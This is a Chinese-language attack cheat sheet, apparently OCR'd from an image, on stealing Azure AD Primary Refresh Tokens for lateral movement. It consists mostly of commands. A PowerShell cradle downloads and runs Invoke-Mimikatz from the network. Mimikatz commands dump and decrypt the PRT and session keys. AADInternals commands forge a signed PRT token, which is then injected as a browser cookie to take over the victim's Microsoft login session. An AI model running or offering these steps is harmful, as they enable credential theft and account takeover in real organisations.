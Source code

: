 	MimiKatz（2.2.0 及更高版本）可用于通过用于 Azure AD SSO（单点登录）的主刷新令牌 (PRT) 来攻击（混合）加入 Azure AD 的机器进行横向移动攻击。

	运行 mimikatz 获取 PRT
	PS> iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
	PS> Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'

	复制 PRT 和 KeyValue
	Mimikatz> privilege::debug
	Mimikatz> token::elevate
	Mimikatz> dpapi::cloudapkd /keyvalue:<KeyValue> /unprotect

	复制 Context、ClearKey 和 DerivedKey
	Mimikatz> dpapi::cloudapkd /context:<Context> /derivedkey:<DerivedKey> /Prt:<PRT>
	生成 JWT
	PS> Import-Module C:\Tools\AADInternals\AADInternals.psd1
	PS AADInternals> $PRT_OF_USER = '...'
	PS AADInternals> while($PRT_OF_USER.Length % 4) {$PRT_OF_USER += "="}
	PS AADInternals> $PRT = [text.encoding]::UTF8.GetString([convert]::FromBase64String($PRT_OF_USER))
	PS AADInternals> $ClearKey = "XXYYZZ..."
	PS AADInternals> $SKey = [convert]::ToBase64String( [byte[]] ($ClearKey -replace '..', '0x$&,' -split ',' -ne ''))
	PS AADInternals> New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey –GetNonce
	eyJ0eXAiOiJKV1QiL...
	（ JSON Web 令牌）可以在https://login.microsoftonline.com/login.srf<Signed JWT>的（匿名）浏览器会话中用作 PRT cookie 。 使用以下值编辑 Chrome cookie (F12) -> 应用程序 -> Cookies：

	Name: x-ms-RefreshTokenCredential
	Value: <Signed JWT>
	HttpOnly: √
	️用标志HTTPOnly和标记 cookie Secure。